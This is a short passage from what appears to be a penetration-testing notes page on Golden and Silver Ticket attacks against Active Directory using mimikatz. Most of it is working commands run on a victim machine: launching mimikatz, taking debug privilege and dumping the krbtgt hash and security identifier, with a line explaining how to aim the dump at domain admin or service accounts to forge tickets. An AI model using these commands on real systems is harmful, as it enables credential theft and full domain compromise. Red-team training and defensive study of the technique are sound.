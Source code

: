 <figure><img src="../../.gitbook/assets/image (1) (11) (1).png" alt=""><figcaption></figcaption></figure>

## Golden/Silver Ticket Attacks w/ mimikatz

**Victim**

```
cd downloads && mimikatz.exe
```

This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

**Victim - Mimikatz**

```
privilege::debug
lsadump::lsa /inject /name:krbtgt
```
